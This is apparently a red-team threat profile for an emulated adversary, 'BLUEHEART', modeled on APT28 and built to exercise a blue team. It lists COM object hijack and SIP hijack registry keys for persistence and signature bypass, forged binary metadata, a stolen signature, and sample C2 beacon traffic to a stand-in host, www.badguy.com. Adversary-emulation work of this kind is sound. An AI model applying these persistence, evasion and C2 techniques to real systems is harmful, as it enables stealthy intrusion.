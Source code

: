 ```yaml
---
id: blueheart
title: Threat Profile - BLUEHEART
description: >
  BLUEHEART threat profile example
---
```


# Threat Profile (BLUEHEART)

:::tip
This example can be used as a reference and would generate as part of threat decomposition and threat profile design.
:::

## Description

BLUEHEART was inspired on APT28 malware using CobaltStrike malleable C2 profiles, custom metadata, and TTPs. 

## Goal and Intent

Emulate TTPs of a realistic adversary to exist on a target network and provide a blue team the opportunity to exercise defensive TTPs.

## Key IOCs

- User level C2 Agent
- Custom CobaltStrike Malleable C2 profile to mimic CHOPSTICK IOCs
- Persistence: COM Object Hijacking
- File: `C:\Users\Public\Libraries\apphelp.dll`
- HTTP Traffic to www.badguy.com
- Beacons every 60 seconds - 30% jitter User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
- Modified Date/Time Stamp (Using [MetaTwin](https://github.com/threatexpress/metatwin))
- Custom Binary metadata using valid Microsoft signature
- Modified SubjectInterfacePackage (SIP) for Signature Verification Bypass

__Disk Indicators__

```
C:\Users\Public\Libraries\apphelp.dll
```

__Metadata__

```
File: C:\windows\system32\apphelp.dll
InternalName: Apphelp
OriginalFilename: Apphelp
FileVersion: 10.0.10586.0(rs1_release.151029-
1700)
FileDescription:ApplicationCompatibility Client Library
Product: Microsoft® Windows® Operating System
ProductVersion: 10.0.10586.0
Debug: False
Patched: False
PreRelease: False
PrivateBuild: False
SpecialBuild: False
Language: English (United States)
```

__Digital Signature__: Stolen from ```c: \windows\system32\taskhostw.exe```

__Time Stamp__: 10/30/2015 02:17 AM

__File Size__: 427960

__MD5 Hash__: A31B0124152CBB60C68DCFEBC9C4909C

__Registry Modifications__

COM Object Hijack

```
Key: HKCU:\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InProcServer32'    
Property: (Default)
Property: ThreadingModel
```

SIP Hijack

```
Key: HKLM:\SOFTWARE\Microsoft\Cryptography\OID\EncodingType0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}
```

__Network Indicators__

HTTP Traffic C2 commands through www.badguy.com

Sample HTTP GET Request

```
GET /index.html HTTP/1.1
Accept-Language: en-US,en;q=0.5
Host: www.badguy.com
Proxy-Connection: Keep-Alive
Cookie: session=sE5QGSAMTumuA/3mNmqe5g==
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64;
Trident/7.0; rv:11.0) like Gecko
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/html
Vary: Accept-Encoding
Server: IIS 5.0
Connection: close
Content-Length: 218
<html><head><meta http-equiv="refresh" content=0
url="http://www.badguy.com"><title>Bad Guy Website</title></html>fylWlO
/d4uBN6b0hPlhUDYRcjdjaifkaukstXQZwO3PZpCzTTR
FTERSAITNWz2xTNndMcZgPg==
```

Sample HTTP POST Request

```
POST /contact HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: www.badguy.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=NzQ4NTU=
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64;Trident/7.0; rv:11.0) like Gecko
action=Submit&data=jdagislaga-p0Zw

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: application/octet-stream
Server: IIS 5.0
Connection: close
Content-Length: 40
yF8u8YkdbbWNGWm5gUgaalgOOSfZDX2lnQl5qZEF
```

## C2 Overview

HTTP Traffic on TCP port 80 connecting to www.badguy.com every 60 seconds.

## TTPs (Enumeration, Delivery, Lateral Movement, Privilege Escalation, etc.)

POST-exploitation via Cobalt Strike commands. Enumeration and lateral movement via Cobalt Strike and native Windows commands. Privilege escalation limited and determined POST-exploitation.

## Exploitation

Nothing specific. Operator deploys during after initial access.

## Persistence

User Level persistence where COM Object Handler loads DLL at user logon under taskhostw.exe

```
$Description = "SystemSoundsService"
$CLSID = '{2DEA658F-54C1-4227-AF9B-260AB5FC3543}'
```



